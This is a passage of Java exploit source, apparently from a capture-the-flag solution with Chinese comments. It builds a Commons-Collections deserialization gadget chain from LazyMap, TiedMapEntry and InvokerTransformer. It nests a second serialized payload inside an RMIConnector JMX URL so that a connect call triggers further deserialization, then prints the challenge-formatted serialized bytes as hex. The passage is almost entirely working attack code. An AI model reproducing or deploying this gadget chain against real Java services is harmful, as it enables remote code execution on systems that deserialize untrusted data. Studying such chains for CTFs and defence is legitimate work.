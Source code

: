```plain

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, obj);


        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(obj);

        setFieldValue(lazyMap,"factory", transformer);

        return expMap;
    }
    public static String bytesTohexString(byte[] bytes) {
        //题目要求16进制
        if (bytes == null)
            return null;
        StringBuilder ret = new StringBuilder(2 * bytes.length);
        for (int i = 0; i < bytes.length; i++) {
            int b = 0xF & bytes[i] >> 4;
            ret.append("0123456789abcdef".charAt(b));
            b = 0xF & bytes[i];
            ret.append("0123456789abcdef".charAt(b));
        }
        return ret.toString();
    }

    public static void main(String[] args) throws Exception {
        //获取exp的base64编码
        ByteArrayOutputStream tser = new ByteArrayOutputStream();
        ObjectOutputStream toser = new ObjectOutputStream(tser);
        toser.writeObject(getObject());
        toser.close();

        String exp= Base64.getEncoder().encodeToString(tser.toByteArray());

        //创建恶意的RMIConnector
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+exp);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        //使用InvokerTransformer 调用 connect 方法
        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap,"factory", invokerTransformer);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeUTF("SJTU");
        oos.writeInt(1896);
        oos.writeObject(expMap);
        oos.close();
        System.out.println(bytesTohexString(baos.toByteArray()));
```